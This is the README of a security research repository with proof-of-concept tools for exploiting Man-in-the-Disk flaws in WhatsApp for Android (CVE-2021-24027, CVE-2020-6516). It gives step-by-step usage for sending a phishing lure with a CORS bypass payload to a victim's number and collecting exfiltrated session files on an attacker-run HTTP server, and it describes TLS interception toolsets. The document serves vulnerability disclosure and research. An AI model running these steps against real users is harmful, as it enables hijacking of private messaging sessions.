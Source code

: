 # WhatsApp MitD & MitM

## Introduction

This repository contains PoC code and tools that were developed as part of our
research [01] on remotely exploiting *Man-in-the-Disk* (MitD) vulnerabilities on
WhatsApp for Android. As discussed in our blog post, the code and accompanying
scripts found here, were used to exploit CVE-2020-6516 (Chrome) [02] and
CVE-2021-24027 (WhatsApp) [03].

The structure of this repository is as follows:

* The current directory contains the Python tool that hooks WhatsApp using Frida,
  sends the phishing message carrying the CORS bypass payload and runs an HTTP
  server, where exfiltrated session files from the victim device are sent to.

* **tls12\_psk\_extract/** contains the TLS v1.2 MitM toolset. See **README.md**
  in that directory for more information on how to prepare a MitM environment.

* **watls\_psk\_extract/** contains the TLS v1.3 (WaTLS) MitM toolset. See
  **README.md** in that directory for more information on how to prepare a MitM
  environment.

* **openssl-1.1.1f-patches/** contains OpenSSL 1.1.1f patches required for
  setting up TLS v1.2 and/or TLS v1.3 MitM environments.

* **secrets/** holds a simple shell script and an OpenSSL configuration for
  generating certificates similar to those used by the WhatsApp TLS v1.3
  infrastructure. The generated keys and certificates can be used for both
  TLS v1.2 and v1.3 MitM.

* Last but not least, **misc/** contains various Frida scripts that were used
  for testing and debugging purposes during our research and might be helpful to
  other researchers.


## Usage

To test the PoC you need an Android device running WhatsApp 2.20.206.22 [04].
Even though our code was initially developed for 2.19.355, and so you can find
the corresponding snippets under **frida_scripts/**, that version is nowadays
considered "expired" and won't work.

Before firing up the PoC, it is a good idea to compile as little as possible of
WhatsApp's DEX code. Doing so might proactively help in avoiding issues like
Frida not being able to hook specific methods.

    adb shell
    am force-stop com.whatsapp
    pm compile -f -m space com.whatsapp
    am start com.whatsapp/.Main

Download Frida server and push it on your Android device under **/data/local/tmp**,
leaving the default file name as is. Version 12.8.10 is tested and known to work
well. Feel free to download a more recent one if you prefer to. The PoC will
automatically detect the Frida server binary and will attempt to execute it with
the appropriate command line arguments.

    cd /tmp
    curl -O https://github.com/frida/frida/releases/download/12.8.10/frida-server-12.8.10-android-arm64.xz
    xz -d frida-server-12.8.10-android-arm64.xz
    adb push frida-server-12.8.10-android-arm64 /data/local/tmp

The main logic of the exploit is implemented in **main.py**. Files **adb.py**
and **frida_util.py** are trimmed down versions of tools that we use internally
for various debugging tasks on Android devices.

To run the PoC, attach your Android device on your computer and run the
following command:

    python3 main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 -r \
        images/the_guardian.jpg MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas"

The command line switches passed to **main.py** are the following:

* `-s` - The serial number of the Android device to use, in case the attacker
  has multiple Android devices attached on her computer.

* `-a` and `-p` - Address and port, respectively, of the HTTP server where the
  exfiltrated sessions will be sent to.

* `-r` - Instructs **main.py** to start the aforementioned HTTP server on the
  local computer. If you don't pass `-r`, make sure you run **server.py** on the
  host specified by `-a` and `-p`.

Positional arguments are the following:

* **images/guardian.jpg** - A JPG image that will be used as a fake message
  preview, in order to lure the victim into clicking on it.

* **MOBILE_NUMBER@s.whatsapp.net** - The victim's mobile phone number in WhatsApp
  format. This is usually the country prefix followed by the mobile number. For
  example, Greek numbers (+30) look like `301234567890@s.whatsapp.net`.

* **"Rush for Mediterranean gas"** - An arbitrary string to be used as the
  message caption.

For a real life usage example, have a look at our blog post, and more specifically
at the demonstration videos.


## References

[01] <https://www.census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/>

[02] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516>

[03] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24027>

[04] <https://www.apkmirror.com/apk/whatsapp-inc/whatsapp/whatsapp-2-20-206-22-release/whatsapp-messenger-2-20-206-22-android-apk-download/>

